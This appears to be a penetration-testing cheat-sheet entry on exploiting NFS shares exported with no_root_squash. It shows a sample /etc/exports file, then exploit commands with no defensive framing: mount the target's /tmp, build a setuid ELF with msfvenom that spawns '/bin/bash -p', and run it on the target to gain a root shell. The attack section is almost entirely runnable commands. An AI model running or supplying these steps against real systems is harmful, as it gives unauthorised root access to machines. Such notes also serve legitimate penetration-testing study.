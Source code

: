    
   
## NFS Root Squashing
   
   
 Type Command
 
     cat /etc/exports
     
 OUTPUT 
 
     /etc/exports: the access control list for filesystems which may be exported
     #		to NFS clients.  See exports(5).
     #
     # Example for NFSv2 and NFSv3:
     # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
     #
     # Example for NFSv4:
     # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
     # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
     #

     /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

     #/tmp *(rw,sync,insecure,no_subtree_check)


  ### Exploit
  
  Open Your LOCAL MACHINE AND TYPE COMMAND
  
    mkdir /tmp/asif
    mount -o rw,vers=2 <Target IP>:/tmp /tmp/asif
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/asif/shell.elf
    chmod +xs /tmp/asif/shell.elf
  Type A Remote Machine
  
    /tmp/shell.elf




